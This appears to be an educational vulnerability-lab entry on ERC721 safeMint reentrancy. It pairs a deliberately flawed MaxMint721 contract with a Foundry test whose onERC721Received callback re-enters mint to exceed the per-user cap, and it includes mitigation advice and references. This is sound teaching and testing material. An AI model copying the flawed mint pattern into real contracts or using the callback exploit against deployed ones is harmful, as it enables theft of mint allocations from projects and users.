

# Unprotected callback - ERC721 SafeMint reentrancy  
[Unprotected-callback.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Unprotected-callback.sol)  
**Name:** Unprotected callback - ERC721 SafeMint reentrancy

**Description:**  
The contract ContractTest is exploiting a callback feature to bypass the maximum mint limit
set by the MaxMint721 contract. This is achieved by triggering the onERC721Received function,
which internally calls the mint function again. Therefore, although MaxMint721 attempts
to limit the number of tokens that a user can mint to MAX_PER_USER, the ContractTest contract
successfully mints more tokens than this limit.

**Scenario:**  
This exercise is about a contract that via callback function to mint more NFTs

**Mitigation:**  
Follow check-effect-interaction and use OpenZeppelin Reentrancy Guard.

**REF:**  

https://blocksecteam.medium.com/when-safemint-becomes-unsafe-lessons-from-the-hypebears-security-incident-2965209bda2a  

https://www.paradigm.xyz/2021/08/the-dangers-of-surprising-code  

MaxMint721 **Contract:**  
```
contract MaxMint721 is ERC721Enumerable {
    uint256 public MAX_PER_USER = 10;

    constructor() ERC721("ERC721", "ERC721") {}

    function mint(uint256 amount) external {
        require(
            balanceOf(msg.sender) + amount <= MAX_PER_USER,
            "exceed max per user"
        );
        for (uint256 i = 0; i < amount; i++) {
            uint256 mintIndex = totalSupply();
            _safeMint(msg.sender, mintIndex);
        }
    }
}
```
**How to Test:**
forge test --contracts src/test/Unprotected-callback.sol -vvvv  
```
// Public function that tests the minting of new tokens
    function testSafeMint() public {
        // A new instance of the MaxMint721 contract is created
        MaxMint721Contract = new MaxMint721();
        
        // Tries to mint maxMints amount of new tokens. 
        // If the mint function is implemented in a standard way, this should mint maxMints number of new tokens.
        MaxMint721Contract.mint(maxMints);
        
        // The console log suggests an exploit has taken place allowing for 19 NFTs to be minted
        console.log("Bypassed maxMints, we got 19 NFTs");
        
        // The code asserts that indeed 19 NFTs have been minted
        assertEq(MaxMint721Contract.balanceOf(address(this)), 19);
        
        // Outputs the number of NFTs minted by this contract
        console.log("NFT minted:", MaxMint721Contract.balanceOf(address(this)));
    }

    // This function is a standard implementation of the ERC721Receiver interface which allows this contract 
    // to receive ERC721 tokens from other contracts. In this case, it's used to perform the mint exploit
    function onERC721Received(
        address,
        address,
        uint256,
        bytes memory
    ) public returns (bytes4) {
        
        // Checks if this is the first time the function is called
        if (!complete) {
            // Marks the function as called
            complete = true;
            
            // Mints (maxMints - 1) number of new tokens. 
            MaxMint721Contract.mint(maxMints - 1);
            
            // Outputs the number of tokens requested to mint
            console.log("Called with :", maxMints - 1);
        }
        
        // This is the standard return value for a successful receipt of an ERC721 token
        return this.onERC721Received.selector;
    }
```
Red box: bypassed maxMint

